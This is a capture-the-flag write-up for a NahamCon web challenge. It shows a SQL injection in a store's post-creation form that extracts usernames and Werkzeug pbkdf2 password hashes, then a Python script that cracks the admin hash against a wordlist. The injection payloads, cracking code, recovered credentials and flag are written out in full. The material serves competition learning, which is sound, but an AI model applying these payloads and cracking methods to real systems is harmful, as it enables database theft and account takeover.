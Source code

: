 
# Challenge Name: Hacker Web Store


![date](https://img.shields.io/badge/date-24.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-183-blue.svg)  

## Description

Author: @Jstith  
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
_This challenge may require a local password list, which we have provided below. **Reminder, bruteforcing logins is not necessary and [against the rules.](https://ctf.nahamcon.com/rules)**_**  
  
**Press the `Start` button on the top-right to begin this challenge.****

**Attachments:**  [password_list.txt](https://ctf.nahamcon.com/files/0b0df3700fc27beb86dfe2b6d8b077a7/password_list.txt?token=eyJ1c2VyX2lkIjozOTA1LCJ0ZWFtX2lkIjoxODczLCJmaWxlX2lkIjo5M30.ZlJYNQ.2HbqOXfKPZjnZbsNoX0nazWNy88)

## Detailed solution

http://challenge.nahamcon.com:32399/

We have an app with login page and option to create posts

![](https://github.com/BaadMaro/CTF/assets/72421091/d6dd28c2-192f-49d3-b123-5997788780be)

![](https://github.com/BaadMaro/CTF/assets/72421091/46b94709-e819-473b-ab09-a58b5419f0b3)

![](https://github.com/BaadMaro/CTF/assets/72421091/fd8c75a1-6418-4bc1-a5b0-fb6db3fb85d7)


While testing posts creation, i detect a SQL injection while sending `'`

![Pasted image 20240525223502](https://github.com/BaadMaro/CTF/assets/72421091/a8089dfa-80b5-4fc2-9b75-167f188a951d)

The values used in post creation have always `'` which block using dynamic data.

We can close the first post values and added next to it a second post with dynamic data like this for description

```
post 1') , ('Product2', '15.99', 'Description2
```

I started checking for columns inside users tables and i was able to detect name and password using `SELECT X FROM users`

```
1') , ('Product2', (SELECT password FROM users), 'Description3
```

We have multiple users so we need to use LIMIT and OFFSET to get all users names and their passwords

```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```

```
Joram
```

Repeating the same logic for multiple OFFSET (we have 3 users), we were able to get the users 

```
Joram

James

website_admin_account
```

```
pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

As mentioned in challenge description, we have a custom password list to crack the hashes

Doing some research, i found that the Hash format is used by Python Werkzeug `generate_password_hash`

We need to make a custom function and use the same hash type, iterations and salt to generate hashes from passwords list and compare it to our hashes

Here is the example for the `website_admin_account` hash

```python
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    """Hash a password with the given method and salt with a string of
    the given length. The format of the string returned includes the method
    that was used so that :func:`check_password_hash` can check the hash.

    The format for the hashed string looks like this::

        method$salt$hash

    This method can **not** generate unsalted passwords but it is possible
    to set param method='plain' in order to enforce plaintext passwords.
    If a salt is used, hmac is used internally to salt the password.

    If PBKDF2 is wanted it can be enabled by setting the method to
    ``pbkdf2:method:iterations`` where iterations is optional::

        pbkdf2:sha256:80000$salt$hash
        pbkdf2:sha256$salt$hash

    :param password: the password to hash.
    :param method: the hash method to use (one that hashlib supports). Can
                   optionally be in the format ``pbkdf2:<method>[:iterations]``
                   to enable PBKDF2.
    :param salt_length: the length of the salt in letters.
    """
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()

```

```
ntadmin1234 found password
```

We got our match with `ntadmin1234`

We can login now with  `website_admin_account:ntadmin1234` and get our flag

## Flag

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

